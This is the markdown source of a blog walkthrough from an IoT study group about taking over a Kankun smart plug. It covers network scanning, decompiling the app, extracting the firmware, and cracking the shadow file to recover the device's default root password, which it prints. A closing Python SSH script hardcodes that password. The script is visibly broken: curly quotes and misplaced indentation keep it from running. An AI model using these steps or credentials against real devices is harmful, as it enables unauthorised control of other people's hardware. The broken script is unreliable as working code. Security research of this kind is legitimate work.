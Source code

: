 ```yaml
---
path: "/samrtplug-hack"
cover: "../2019-02-08/main.jpg"
slug: "samrtplug-hack"
date: "2019-02-07"
title: "Kankun Smartplug hack"
tags: ['smartplug', 'kankun', 'iot', 'security']
published: true

---
```


![](../2019-02-08/main.jpg )



# TL;DR

Hacking into old kankun smartplug. Then controlling it with python through terminal 

# Introduction

It has now been almost one year when we started to study upon Internet of Things under IoT
study group , an initiative by Null Bhopal chapter. Internet of Things have indeed made a
revolutionary change in the way we live, making it more comfortable. In this process of learning, one
of our mentor, [Mr. Anant Shrivastava](https://twitter.com/anantshri), sponsored us a smart plug. And there it all started.

# head

The kankun smart plug is controlled by app. The Instruction manual that comes along with the plug gives information of where to download the app from. The next step is to setup it up and connect the smart phone and smart plug to the same wifi network. When successfully configured, the smart plug is added in the device list. Now the smart plug can be controlled remotely via mobile app. There is another feature  **Direct Mode** , where the smart plug acts as a station having SSID : OK_SP3 , and by default there is no password for the network.

![#](../2019-02-08/images/asdf.png)

After connecting you can control simply control the smart plug with the app.

I also connected my laptop on the same network.  Found the IP address of smart plug with

```
arp -a
```

Then did a `nmap` scan on the smartplug. It suggested that port 22 is open so ssh related attacks are possible.

![](../2019-02-08/images/10.png)



# Lets get started

First I downloaded the `smartwifi.apk` on my laptop running android tamer.

The very first thing to look for was the firmware.

The reason being it gives the overview of the device’s software. Information such as the filesystem present, bootloader, the different binaries present can be of great use from a pentester’s point of view. Although the firmwares are available on the internet, but in case you are unable to find, the other approach can be to reverse engineer the app. There is a tool named `jadx` that can be used to extract the source code.

​​![](../2019-02-08/images/1.png)



Extracting the app shows all the usual folders. We would first time to look for any hard-coded URLs. One can go from all the files one by one but the process is time-consuming. Therefore intelligent use of `grep` can save us a lot of time.

So we are using 

```bash
grep -winr http:
```

This would give us all the url starting with http plus the filename and line number.

![](../2019-02-08/images/3.png)

The highlighted text in the above screenshot shows the hardcoded url in the file`PreferencesUtil.java`. Since the url ends with `.bin` it might be the firmware file

Then simply use `wget` to download the .bin firmware file.

```bash
wget http://app.jkonke.com/kkeps.bin
```



The app also downloads this firmware and flash it to the device. After downloading the
firmware, run `binwalk` on kkeps.bin binary file. And it provides you with loads of useful information such as : LZMA compressed data, squashfs filesystem, so on and so forth. 

One can download binwalk with

```
apt install -y binwalk
```

`-e` option can be used for extracting the filesystem.

```
binwalk –e kkeps.bin
```

![](../2019-02-08/images/6.png)

![](../2019-02-08/images/7.png)

So here is the entire linux file system. So the next step would be to get the root password. Which is
not very difficult if you have the entire file system.

```bash
unshadow /etc/password /etc/shadow > passwd.txt
```

Then one can crack the file using John the Ripper. Password is `p9z34c` Now that we have the root password we can now ssh into the smart plug. To control it with our terminal without the app.

Turning ON and OFF the smart plug can easily done with the help of terminal.

### Turning the smart plug off

```bash
echo 0 > /sys/class/leds/tp-link:blue:relay/brightness
```

### Turning the smart plug on

```bash
echo 1 > /sys/class/leds/tp-link:blue:relay/brightness
```

# Automating

This entire process can be done with the help of this python script that I wrote. This script requires
paramiko library. So you will be required do an

```bash
apt install python-paramiko

```

```python
import paramiko,sys

GREEN=’\033[92m’
BLUE=’\033[94m’
RED=’\033[91m’
RESET=’\x1b[0m’
if len(sys.argv) < 3:
	print “args missing”
sys.exit(1)
host = sys.argv[1]
action = sys.argv[2]
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
print BLUE +”[*]   connecting to device”+ RESET
ssh.connect(host, username=’root’, password=’p9z34c’)
path=’/sys/class/leds/tp-link:blue:relay/brightness’
if sys.argv[2] == ‘on’:
	ssh.exec_command(‘echo 1 >’ + path)
print GREEN +”[*]   turning it ” + action +””+RESET
	elif sys.argv[2] == ‘off’:
ssh.exec_command(‘echo 0 >’ + path)
print RED +”[*]   turning it ” + action +””+RESET
ssh.close()
```

That Is how we controlled the smart plug remotely without the smartplug app.
This report is drafted under the IoT study group, an initiative by Null Bhopal chapter.

# Credits

- Deepanshu Gajbhiye ([deep0x00](https://twitter.com/deep0x00))
- Shreya Pohekar ([shreyapohekar](https://twitter.com/shreyapohekar))